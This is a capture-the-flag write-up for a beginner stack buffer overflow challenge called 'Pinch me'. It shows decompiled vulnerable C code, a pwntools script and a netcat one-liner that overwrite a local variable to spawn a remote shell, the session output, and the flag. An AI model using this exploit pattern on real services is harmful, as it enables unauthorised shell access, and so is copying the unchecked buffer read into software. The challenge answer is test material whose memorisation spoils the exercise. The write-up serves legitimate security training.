 Pinch me was the 2nd BOF challenge.

Here is the vuln() function containing the vulnerable code:

```c
void vuln(void)

{
  char local_28 [24];
  int local_10;
  int local_c;
  
  local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}
```

We note that the size of the `local_28` buffer is 24 while 100 bytes were allogated (see `fgets(local_28,100,stdin)`). If we input more than 24 bytes they will spillover into `local_10`. This is fine since we want to overwrite `local_10` with `0x1337c0de`.

The following payload will do:

```py
from pwn import *

HOST = 'dctf1-chall-pinch-me.westeurope.azurecontainer.io'
PORT = 7480

sh = remote(HOST,PORT)

sh.recv()

payload = 'A'* 24
payload += p64(0x1337c0de)

sh.sendline(payload)
sh.interactive()
```

Here is the result of running the script:

```console
root@osboxes:~/Downloads# python pinch_me.py 
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
$ whoami
pilot
$ ls
flag.txt
pinch_me
startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
```

The flag is **dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}**.

The below one-liner also did the job:

```console
root@osboxes:~/Downloads# (python -c "import pwn; print 'A'*24 + pwn.p64(0x000000001337c0de)"; cat) | nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480
Is this a real life, or is it just a fanta sea?
Am I dreaming?
whoami
pilot
id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
ls
flag.txt
pinch_me
startService.sh
cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
```
